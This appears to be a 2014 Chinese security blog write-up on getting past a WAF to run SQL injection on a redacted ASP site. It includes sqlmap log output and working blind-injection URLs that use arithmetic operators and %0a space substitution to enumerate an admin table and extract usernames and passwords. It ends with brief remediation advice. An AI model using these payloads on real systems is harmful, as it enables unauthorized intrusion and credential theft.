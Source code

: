 Title: 使用运算符绕过WAF进行SQL注入
Date: 2014-07-04 06:22
Tags: SQL注入


此网站部署了一个简单的防注入程序，使用sqlmap和pangoli都测试过，无法注入，sqlmap测试结果如下。怎么能绕过呢，注入点属于一个数字型的，突然想到是否可以使用运算符绕过呢？

> ...

> [06:00:06] [INFO] testing 'Oracle inline queries'

> [06:00:06] [INFO] testing 'SQLite inline queries'

> [06:00:07] [INFO] testing 'MySQL > 5.0.11 stacked queries'

> [06:00:07] [INFO] testing 'PostgreSQL > 8.1 stacked queries'

> [06:00:08] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries'

> [06:00:09] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'

> [06:00:10] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'

> [06:00:11] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind'

> [06:00:11] [INFO] testing 'Oracle AND time-based blind'

> [06:00:12] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'

> [06:00:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'

> [06:00:20] [WARNING] using unescaped version of the test because of zero knowled

> ge of the back-end DBMS. You can try to explicitly set it using option '--dbms'

> [06:00:29] [WARNING] GET parameter 'ID' is not injectable

> [06:00:29] [CRITICAL] all tested parameters appear to be not injectable. Try to

> increase '--level'/'--risk' values to perform more tests. As heuristic test turn

> ed out positive you are strongly advised to continue on with the tests. Please,

> consider usage of tampering scripts as your target might filter the queries. Als

> o, you can try to rerun by providing either a valid value for option '--string'

> (or '--regexp')

> [*] shutting down at 06:00:29


#### **1、漏洞验证**

1.使用单引号，返回waf拦截信息，返回页面信息如下

![ALT TEXT](/static/images/add-injection-1.gif)


2.正常页面，返回页面信息如下

![ALT TEXT](/static/images/add-injection-2.gif)

3.使用运算符，返回页面信息如下，可以看出与正常页面返回信息不一样，因此可以判断存在数字型注入，工具是无能为力了，只能盲注

![ALT TEXT](/static/images/add-injection-2.gif)


#### **2、盲注方法**

1.猜表

    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0acount(*)%0afrom%0aadmin)>0)

2.猜字段

    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0acount(username)%0afrom%0aadmin)>0)
    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0acount(password)%0afrom%0aadmin)>0)

3.猜表中数据

猜长度

    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0atop%0a1%0alen(username)%0afrom%0aadmin)>0)
    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0atop%0a1%0alen(password)%0afrom%0aadmin)>0)

猜内容

    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0atop%0a1%0aAsc(mid(username,1,1))%0afrom%0aadmin)>49)
    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0atop%0a1%0aAsc(mid(password,1,1))%0afrom%0aadmin)>49)

#### **3、修复方法**

防注入不能依靠外部的WAF程序就可以高枕无忧了，WAF程序不是万能的，还是得从网站本身的代码出发，才能彻底解决，一般方法如下

1.使用预编译的方法，防止sql语法结构由于用户输入而改变

2.针对数字型的注入其实很简单，做一次数据转换即可

3.针对字符型的过滤时需要考虑问题很多，建议采用已成熟的算法


